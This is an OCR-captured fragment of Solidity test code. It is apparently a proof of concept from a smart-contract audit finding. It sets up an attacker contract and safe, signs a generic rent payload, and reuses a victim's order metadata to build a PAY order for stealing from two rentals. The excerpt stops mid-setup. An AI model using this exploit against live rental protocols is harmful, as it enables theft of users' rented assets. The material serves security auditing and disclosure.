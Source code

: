 ```solidity
        erc20s[0].mint(address(attackerContract), victimRentalOrders.length); // we will be stealing from two rentals and use 1 wei for each

        // create a safe for our attackerContract
        address attackerSafe;
        { // to fix stack too deep errors
            address[] memory owners = new address[](1);
            owners[0] = address(attackerContract);
            attackerSafe = factory.deployRentalSafe(owners, 1);
        }
        attackerContract.storeSafe(attackerSafe);
        
        // obtain generic signature for `RentPayload` 
        // this is done via the front-end for any order and we will then use matching `OrderMetadata.rentDuration` and `OrderMetadata.hooks` fields when creating our new order
        // `RentPayload.intendedFulfiller` will be our attackerContract and `RentPayload.fulfillment` will be our attackerContract's safe
        // any expiration given to us by the front-end would do since we will be executing these actions programmatically
        RentPayload memory rentPayload = RentPayload(
            OrderFulfillment(attackerSafe), 
            metadata, 
            block.timestamp + 100, 
            address(attackerContract)
        ); // using Alice's metadata (order) as an example, but could realistically be any order

        // generate the signature for the payload (simulating signing an order similar to Alice's (metadata only) via the front end)
        bytes memory signature = _signProtocolOrder(
            rentalSigner.privateKey,
            create.getRentPayloadHash(rentPayload)
        );

        // ------ Prep `attackerContract` ------ //

        // precompute `validate()` calldata for new order (PAY order) for on-chain validation
        // re-purpose Alice's order (for simplicity) for our use by replacing all necessary fields with values that pertain to our new order
        order.parameters.offerer = address(attackerContract);
        { // to fix stack too deep errors
            ConsiderationItem[] memory considerationItems = new ConsiderationItem[](0);
            order.parameters.consideration = considerationItems; // no consideration items for a PAY order

            OfferItem[] memory offerItems = new OfferItem[](2);
            // offerItems[0] will change dynamically in our attacker contract
            offerItems[1] = OfferItem({
                itemType: ItemType.ERC20,
                token: address(erc20s[0]),
                identifierOrCriteria: uint256(0),
                startAmount: uint256(1),
                endAmount: uint256(1)
            });

            order.parameters.offer = offerItems;

            order.parameters.totalOriginalConsiderationItems = 0; // 0 since this is a PAY order
            
            // store `validate()` calldata for PAY order in attackerContract for later use
            attackerContract.storePayOrder(order);
        }

```